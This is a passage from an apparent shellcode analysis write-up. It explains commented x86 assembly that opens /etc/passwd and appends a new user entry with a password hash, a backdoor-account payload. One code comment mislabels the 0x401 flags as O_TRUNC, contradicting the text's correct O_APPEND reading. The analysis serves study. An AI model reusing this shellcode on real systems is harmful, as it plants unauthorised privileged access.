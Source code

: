 A file descriptor is then created so the shellcode can write the new user into `/etc/passwd`. The `open` function expects a pointer to the filename `/etc/passwd` and the flags. The filename contains extra slashes so make it 4 bytes aligned. The extra slashes in the filename don't change the behavior as Linux don't care of there is a single slash or multiple ones.

Flags specify if the file should be opened as read-only, write-only, etc.

The list of flags is in the `fnctl.h` file:

```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
#define O_CREAT         00000100
#define O_EXCL          00000200
#define O_NOCTTY        00000400
#define O_TRUNC         00001000
#define O_APPEND        00002000
...
```

These values are encoded in octal base, so when we look at the disassembled code below for the `open` function, we see that the `$ecx` register contains the value 0x401 which translates to 2001 in octal base. Therefore the `O_WRONLY` and `O_APPEND` flags are used on `/etc/passwd`.

```nasm
push byte +0x5           ; eax = 0x5 -> sys_open
pop eax
xor ecx,ecx              ; ecx = 0
push ecx                 ; null-terminate pathname string
push dword 0x64777373    ; /etc//passwd
push dword 0x61702f2f    ; [...]
push dword 0x6374652f    ; [...]
mov ebx,esp              ; const char *pathname -> /etc//passwd
inc ecx                  ; ecx = 0x1
mov ch,0x4               ; ecx = 0x401, int flags -> O_TRUNC + O_WRONLY
int 0x80
```

The next bit of code pushes on the stack the memory address of new `/etc/passwd` line that'll get added. Then the code jumps further down in the code.
```nasm
xchg eax,ebx             ; eax = */etc//passwd, ebx = 3
call dword 0x4d          ; put username entry on the stack
```

The code lands here, where the `write` function is called to add the username into the file.

`write(int fd, const void *buf, size_t count)`

```nasm
pop ecx                       ; username entry: slae:AzH43ypX/zepc...
mov edx, DWORD PTR [ecx-0x4]  ; len
push 0x4                      ; eax = 0x4 -> sys_write
pop eax
int 0x80
```
